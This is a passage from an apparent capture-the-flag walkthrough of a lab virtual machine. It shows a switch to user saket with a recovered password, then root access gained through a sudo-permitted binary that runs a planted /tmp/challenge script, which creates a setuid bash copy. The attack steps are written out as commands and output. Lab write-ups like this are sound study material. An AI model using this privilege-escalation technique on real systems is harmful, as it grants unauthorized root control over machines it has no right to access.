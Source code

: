 	Victor,www-data@ubuntu:/home/saket$ 
	```
	- victor:tribute_to_ippsec
14. Switch to user saket
	```
	saket@ubuntu:~$ su saket
	Password: tribute_to_ippsec
	saket@ubuntu:~$ 
	```
	![](images/Pasted%20image%2020220122034745.png)
	
## Root - Via Sudo 
1. Check for sudo access 
	```
	saket@ubuntu:~$ sudo -l
	Matching Defaults entries for saket on ubuntu:
		env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User saket may run the following commands on ubuntu:
		(root) NOPASSWD: /home/victor/undefeated_victor
	saket@ubuntu:~$ 
	```
2. Execute `/home/victor/undefeated_victor`
	```
	saket@ubuntu:~$ sudo /home/victor/undefeated_victor
	if you can defeat me then challenge me in front of you
	/home/victor/undefeated_victor: 2: /home/victor/undefeated_victor: /tmp/challenge: not found
	```
	- Binary is trying to open/access `/tmp/challenge` 
3. Create `/tmp/challenge`, that will create rootbash, allowing us to obtain root.
	```
	printf '#!/bin/bash\n\ncp /bin/bash /tmp/rootbash && chmod u+s /tmp/rootbash\n' > /tmp/challenge; chmod 4777 /tmp/challenge;
	```
4. Execute `/home/victor/undefeated_victor`, obtaining root shell
	```
	saket@ubuntu:~$ sudo /home/victor/undefeated_victor
	if you can defeat me then challenge me in front of you
	saket@ubuntu:~$ ls -l /tmp
	total 1952
	-rwsrwxrwx 1 saket    saket         67 Jan 21 11:41 challenge
	drwxrwxrwx 3 www-data www-data    4096 Jan 21 10:10 home
	-rw-rw-rw- 1 www-data www-data  157929 Jan 21 10:20 linpeas.out
	-rwxrwxrwx 1 www-data www-data  762836 Dec 31 07:16 linpeas.sh
	-rw-rw-rw- 1 www-data www-data     174 Jan 21 10:10 myfiles.zip
	-rwsr-xr-x 1 root     root     1037528 Jan 21 11:41 rootbash
	drwx------ 3 root     root        4096 Jan 21 08:53 systemd-private-da7327ba5fda4813bbe7f7867c8991dd-colord.service-BhFB5M
	drwx------ 3 root     root        4096 Jan 21 08:53 systemd-private-da7327ba5fda4813bbe7f7867c8991dd-rtkit-daemon.service-Ag5X2A
	drwx------ 3 root     root        4096 Jan 21 08:53 systemd-private-da7327ba5fda4813bbe7f7867c8991dd-systemd-timesyncd.service-HUin4K
	drwxrwxrwt 2 root     root        4096 Jan 21 08:53 VMwareDnD
	drwx------ 2 root     root        4096 Jan 21 08:53 vmware-root
	saket@ubuntu:~$ /tmp/rootbash -p
	rootbash-4.3# whoami
	root
	rootbash-4.3# 
	```